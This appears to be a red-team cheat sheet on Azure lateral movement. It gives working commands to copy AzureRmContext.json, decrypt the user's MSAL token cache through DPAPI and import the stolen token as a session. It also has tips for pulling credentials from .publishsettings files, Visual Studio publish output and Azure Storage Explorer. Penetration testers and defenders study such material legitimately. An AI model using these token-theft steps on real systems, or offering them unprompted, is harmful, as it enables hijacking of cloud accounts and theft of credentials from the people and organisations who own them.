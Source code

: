 # Lateral movement
## Stealing Azure tokens
- https://github.com/rvrsh3ll/TokenTactics
### User access tokens method 1
#### Save the AzureRmContext.json
```
cp %USERPROFILE%\.Azure\AzureRmContext.json C:\temp\AzureRmContext.json
```

#### Get the authenticated token for the user
```
Add-Type -AssemblyName System.Security; [Convert]::ToBase64String([Security.Cryptography.ProtectedData]::Unprotect((([Text.Encoding]::Default).GetBytes((Get-Content -raw "$env:userprofile\AppData\Local\.IdentityService\msal.cache"))), $null, [Security.Cryptography.DataProtectionScope]::CurrentUser))
```

#### Save the token into AzureRmContext.json
-  Open AzureRmContext.json file in a notepad and find the line near the end of the file title “CacheData”. It should be null.

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```

### User access tokens method 1
#### Save azcontext
```
Save-AzContext -Path C:\Temp\AzureAccessToken.json
```

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```

### Visual Studio Code
- Azure Cloud Service Packages (.cspkg)
- Deployment files created by Visual Studio.
- Possible other Azure services integration (SQL, storage, etc.)
- Through cspkg zip files for creds/certs.
- Search Visual Studio Public Directory ```<cloud project directory>\bin\debug\publish```

### Publish settings in files
- Look for file ```.publishsettings```
- Can contain a Base64 encoded Management Certificate or cleartext credentials
- Save "ManagementCertificate" section into a new .pfx file
- Search the user's Downloads directory and VS projects.

### Storage explorers
- Windows Credential Manager stores these credentials.
- Azure Storage Explorer for example has a built-in “Developer Tools” function that you can use to set breakpoints while loading the credentials allowing you to view them while unencrypted.

